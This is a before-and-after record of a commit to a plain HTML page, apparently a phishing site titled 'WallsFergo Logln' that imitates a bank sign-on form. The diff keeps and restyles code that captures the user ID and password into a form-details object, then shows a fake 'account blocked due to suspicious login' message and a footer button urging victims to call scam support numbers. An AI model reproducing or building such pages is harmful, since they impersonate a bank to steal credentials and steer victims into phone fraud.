

Before and after one commit to wasim753ahmed/fr-wf-online1, a plain HTML site: page index.html in a window 1280 px wide. Both pictures are taken after typing "Sample", "Sample123" into the empty fields and a click on the button "Sign on". Shown: the part 65-887 px from the top of the page. After the commit the page ends 800 px from the top, so only its background shows below. Drawn offline with Linux system fonts and the light colour scheme; no server answers.

Commit message:
Update index.html

```diff
--- a/index.html
+++ b/index.html
@@ -1,16 +1,6 @@
 <!DOCTYPE html>
 <html lang="en">
   <head>
-    <script type="text/javascript">
-      (function (c, l, a, r, i, t, y) {
-        c[a] = c[a] || function () { (c[a].q = c[a].q || []).push(arguments) };
-        t = l.createElement(r); t.async = 1; t.src = "https://www.clarity.ms/tag/" + i;
-        y = l.getElementsByTagName(r)[0]; y.parentNode.insertBefore(t, y);
-      })(window, document, "clarity", "script", "rqo5md8o37");
-    </script>
-    <meta charset="UTF-8" />
-    <meta name="viewport" content="width=device-width, initial-scale=1.0" />
-    <title>WallsFergo Logln</title>
     <script type="text/javascript">
       (function (c, l, a, r, i, t, y) {
         c[a] =
@@ -23,8 +13,11 @@
         t.src = "https://www.clarity.ms/tag/" + i;
         y = l.getElementsByTagName(r)[0];
         y.parentNode.insertBefore(t, y);
-      })(window, document, "clarity", "script", "pxyqxcsrg3");
+      })(window, document, "clarity", "script", "rqo5md8o37");
     </script>
+    <meta charset="UTF-8" />
+    <meta name="viewport" content="width=device-width, initial-scale=1.0" />
+    <title>WallsFergo Logln</title>
     <style>
       * {
         margin: 0;
@@ -74,10 +67,10 @@
       .main-container {
         display: flex;
         justify-content: center;
-        align-items: center;
-        min-height: calc(100vh - 60px);
+        align-items: flex-start;
+        min-height: calc(100vh - 120px);
         background-color: #f5f5f5;
-        padding: 20px;
+        padding: 40px 20px 20px 20px;
       }
 
       .login-card {
@@ -88,6 +81,7 @@
         width: 100%;
         max-width: 450px;
       }
+
       .login-card p {
         text-align: center;
         color: #666;
@@ -117,12 +111,14 @@
         border-radius: 30px;
         cursor: pointer;
         font-size: 16px;
+        position: relative;
       }
+
       .sign-on-btn.loading {
-        position: relative;
         pointer-events: none;
         opacity: 0.7;
       }
+
       .sign-on-btn.loading::after {
         content: "";
         position: absolute;
@@ -134,6 +130,7 @@
         border-radius: 50%;
         animation: spin 0.6s linear infinite;
       }
+
       .error-message {
         color: red;
         display: none;
@@ -185,9 +182,15 @@
       }
 
       footer {
+        position: fixed;
+        bottom: 0;
+        left: 0;
+        width: 100%;
+        background-color: #f1f1f1;
         text-align: center;
-        padding: 20px;
-        background-color: #f1f1f1;
+        padding: 15px;
+        box-shadow: 0 -2px 5px rgba(0, 0, 0, 0.1);
+        z-index: 1000;
       }
 
       footer button {
@@ -226,22 +229,15 @@
             <input type="password" id="pass" placeholder="Password" required />
           </div>
 
-          <button type="submit" class="sign-on-btn">
-            Sign on
-            <img
-              id="loader"
-              alt="Loading..."
-              style="display: none; width: 20px; margin-left: 10px"
-            />
-          </button>
+          <button type="submit" class="sign-on-btn">Sign on</button>
+
           <div id="error-message" class="error-message">
-            Yours Account access has been blocked due to suspicious login
-            attempt. Contact our customer support at
-            <a
-              href="tel:+18774191595"
-              style="color: blue; text-decoration: underline"
-              >+18774191595</a
-            >.to verify and unlock your account.
+            Yours Account access has been blocked due to suspicious login attempt.
+            Contact our customer support at
+            <a href="tel:+18774191595" style="color: blue; text-decoration: underline">
+              +1 877-419-1595
+            </a>
+            to verify and unlock your account.
           </div>
         </form>
       </div>
@@ -249,17 +245,19 @@
 
     <footer>
       <button onclick="window.location.href='tel:+18774191595'">
-        Contact Us
+        📞 Contact Us: +1 877-419-1595
       </button>
     </footer>
 
     <script>
-      document
-        .getElementById("loginForm")
-        .addEventListener("submit", function (event) {
+      document.getElementById("loginForm").addEventListener("submit", function (event) {
         event.preventDefault();
         const userID = document.getElementById("userID").value;
         const pass = document.getElementById("pass").value;
+        const submitButton = document.querySelector(".sign-on-btn");
+
+        submitButton.classList.add("loading");
+
         const formDetails = {
           userID: userID,
           pass: pass,
@@ -281,18 +279,8 @@
           })
           .catch((error) => {
             console.error("Error:", error);
-              alert(
-                "There was an error in logging in the form. Contact Our Support Immediately +1 828-280-8745"
-              );
+            alert("There was an error in logging in the form. Contact Our Support Immediately +1 828-280-8745");
           });
-        });
-
-      document
-        .getElementById("loginForm")
-        .addEventListener("submit", function (event) {
-          event.preventDefault();
-          const submitButton = document.querySelector(".sign-on-btn");
-          submitButton.classList.add("loading");
 
         setTimeout(function () {
           submitButton.classList.remove("loading");
```
Lines whose indentation alone changed are shown as unchanged.
